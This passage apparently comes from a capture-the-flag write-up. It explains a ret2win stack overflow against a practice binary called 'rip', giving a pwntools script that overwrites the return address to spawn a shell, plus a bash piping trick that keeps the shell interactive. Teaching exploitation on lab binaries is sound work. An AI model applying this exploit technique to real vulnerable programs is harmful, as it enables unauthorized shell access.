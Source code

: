 *Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('./rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

io = process('rip')
io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```

Let's run the Python-program:

```bash
$ python solve.py
[+] Starting local process './rip': pid 770889
[*] Switching to interactive mode
nope.
$ # Our Python-script is waiting for I/O thanks to io.interactive()
$ lsb_release -a
No LSB modules are available.
Distributor ID:    Kali
Description:    Kali GNU/Linux Rolling
Release:    2022.2
Codename:    kali-rolling
$
```

It works! The important part here is the `io.interactive()`-call. This makes sure that our program doesn't instantly exit and let's us interact with the `/bin/sh`-process started by `win`.


### Interactivity in `bash`

The easy fix is to always make a `pwntools`-based exploit script and use `io.interactive()`, but that's not always feasable, so how can we do the same thing when testing our exploit directly in `bash`?

There are multiple ways of doing it, but one easy way is to use `cat` like this:

```bash
$ (cat payload; cat) | ./rip
Enter password
> nope.

lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2022.2
Codename:       kali-rolling
```
